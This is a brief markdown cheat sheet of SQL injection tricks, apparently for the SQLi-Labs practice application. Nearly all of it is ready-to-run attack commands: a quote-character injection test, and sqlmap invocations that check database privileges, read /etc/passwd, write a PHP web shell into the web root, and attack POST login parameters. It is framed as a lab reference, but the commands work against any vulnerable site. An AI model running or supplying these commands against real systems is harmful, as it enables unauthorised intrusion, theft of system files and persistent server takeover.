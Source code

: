 # SQLI tricks

## GET

### Error-Based

### Simple test

`Adding a simpe quote '`

Example: `http://192.168.1.104/Less-1/?id=5'`

### Checking Privileges

Using SQL-map:

`./sqlmap.py -u http://localhost/Less-1/?id=1 --privileges | grep FILE`

### Reading file

`./sqlmap.py -u <URL> --file-read=<file to read>`

`./sqlmap.py -u http://localhost/Less-1/?id=1 --file-read=/etc/passwd`

### Writing file

`./sqlmap.py -u <url> --file-write=<file> --file-dest=<path>`

`./sqlmap.py -u http://localhost/Less-1/?id=1 --file-write=shell.php --file-dest=/var/www/html/shell-php.php`

## POST

`./sqlmap.py -u <POST-URL> --data="<POST-paramters> "`

`./sqlmap.py -u http://localhost/Less-11/ --data "uname=teste&passwd=&submit=Submit" -p uname`

You can also use a file like with the post request:

`./sqlmap.py -r post-request.txt -p uname`